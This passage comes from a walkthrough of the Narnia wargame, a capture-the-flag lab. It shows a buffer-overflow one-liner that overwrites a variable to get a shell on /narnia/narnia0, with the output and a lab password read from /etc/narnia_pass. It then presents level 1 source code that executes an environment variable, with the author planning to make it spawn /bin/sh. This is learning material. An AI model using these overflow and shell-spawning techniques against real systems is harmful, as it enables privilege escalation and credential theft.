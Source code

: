 ```html
val: 0x64616564
WAY OFF!!!!
```
The comparison should be with the actual hex value \xde \xad \be \ef which I will pipe into the program:
```bash
python3 -c 'import sys;sys.stdout.buffer.write(b"a" * 20 + b"\xef\xbe\xad\xde")' | /narnia/narnia0
```
```html
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ�
val: 0xdeadbeef
```
Now there's no more "WAY OFF!!!!" but the program immediately exits. A nice trick we can do to keep the program running is through 'cat':
```bash
(python3 -c 'import sys;sys.stdout.buffer.write(b"a" * 20 + b"\xef\xbe\xad\xde")' && cat) | /narnia/narnia0
```
Now we get access to the shell:
```html
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ�
val: 0xdeadbeef
whoami
narnia1
```
Running the following command gives us the password:
```html
cat /etc/narnia_pass/narnia1
WDcYUTG5ul
```

#### Narnia 01 Solution

We're given the following source code:
```c
#include <stdio.h>

int main(){
    int (*ret)();

    if (getenv("EGG")==NULL) {
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
I first wondered if I could set an environment variable from the terminal, which I found out was possible by using the 'export' keyword. For example:
```bash
export EGG="1"
```
This worked since I'm no longer getting the "Give me something to execute at the env-variable EGG\n" message:
```html
Trying to execute EGG!
Segmentation fault (core dumped)
```
Now, it was a matter of what to set EGG environment variable to. My first though was to get ret() to call system("/bin/sh") which would hopefully give me control over the shell: 